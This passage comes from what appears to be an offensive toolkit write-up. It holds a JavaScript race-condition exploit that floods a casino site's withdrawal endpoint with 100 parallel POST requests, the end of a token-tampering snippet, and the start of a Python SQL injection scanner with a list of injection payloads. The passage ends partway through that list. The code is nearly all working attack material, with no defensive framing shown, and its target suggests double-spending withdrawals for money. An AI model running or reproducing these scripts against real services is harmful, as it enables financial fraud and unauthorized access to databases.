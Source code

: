 ```javascript
console.log('Modified token:', modified);
```

---

### 3. Race Condition Exploiter

```javascript
async function raceConditionExploit(url, payload, count = 100) {
    console.log(`[*] Sending ${count} simultaneous requests...`);
    
    const promises = [];
    
    for(let i = 0; i < count; i++) {
        promises.push(
            fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json',
                    'Authorization': 'Bearer YOUR_TOKEN'
                },
                body: JSON.stringify(payload)
            })
        );
    }
    
    const results = await Promise.all(promises);
    
    let successes = 0;
    for(const result of results) {
        if(result.status === 200) {
            successes++;
        }
    }
    
    console.log(`[+] ${successes}/${count} requests succeeded`);
    console.log(`[!] Check if balance deducted correctly`);
}

// Usage
raceConditionExploit(
    'https://casino.com/api/withdraw',
    { amount: 1000 },
    100
);
```

---

### 4. SQL Injection Scanner

```python
#!/usr/bin/env python3
import requests

SQL_PAYLOADS = [
    "' OR '1'='1",
    "' OR '1'='1' --",
    "' OR '1'='1' /*",
    "' UNION SELECT NULL--",
    "' UNION SELECT NULL,NULL--",
    "' UNION SELECT NULL,NULL,NULL--",
    "1' ORDER BY 1--",
    "1' ORDER BY 2--",
```